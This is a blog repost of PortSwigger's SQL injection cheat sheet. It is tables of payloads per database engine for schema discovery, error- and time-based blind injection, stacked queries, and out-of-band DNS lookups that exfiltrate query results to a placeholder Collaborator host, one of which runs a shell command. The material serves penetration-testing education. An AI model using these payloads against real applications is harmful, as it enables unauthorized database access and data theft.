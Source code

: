 ```yaml
---
title: PortSwigger-SQL-injection-cheat-sheet
mathjax: true
toc: true
date: 2023-04-01 10:47:50
categories: SQL注入
tags: PortSwigger

---
```

###### tags: `PortSwigger`

# SQL injection cheat sheet

This [SQL injection](https://portswigger.net/web-security/sql-injection) cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## 原文地址

- https://portswigger.net/web-security/sql-injection/cheat-sheet

## String concatenation

You can concatenate together multiple strings to make a single string.

| Oracle     | `'foo'||'bar'`                                               |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `'foo'+'bar'`                                                |
| PostgreSQL | `'foo'||'bar'`                                               |
| MySQL      | `'foo' 'bar'` [Note the space between the two strings] `CONCAT('foo','bar')` |

## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| :--------- | --------------------------- |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle     | `--comment`                                                  |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `--comment/*comment*/`                                       |
| PostgreSQL | `--comment/*comment*/`                                       |
| MySQL      | `#comment` `-- comment` [Note the space after the double dash] `/*comment*/` |

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle     | `SELECT banner FROM v$versionSELECT version FROM v$instance` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT @@version`                                           |
| PostgreSQL | `SELECT version()`                                           |
| MySQL      | `SELECT @@version`                                           |

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle     | `SELECT * FROM all_tablesSELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

| Oracle     | `Does not support batched queries.` |
| :--------- | ----------------------------------- |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE`        |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`        |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`        |

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| :--------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`            |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`               |

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

| Oracle     | The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`  The following technique works on fully patched Oracle installations, but requires elevated privileges: `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`  |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL      | The following techniques work on Windows only: `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` |
| PostgreSQL | `create OR replace function f() returns void as $$declare c text;declare p text;beginSELECT into p (SELECT YOUR-QUERY-HERE);c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';execute c;END;$$ language plpgsql security definer;SELECT f();` |
| MySQL      | The following technique works on Windows only: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

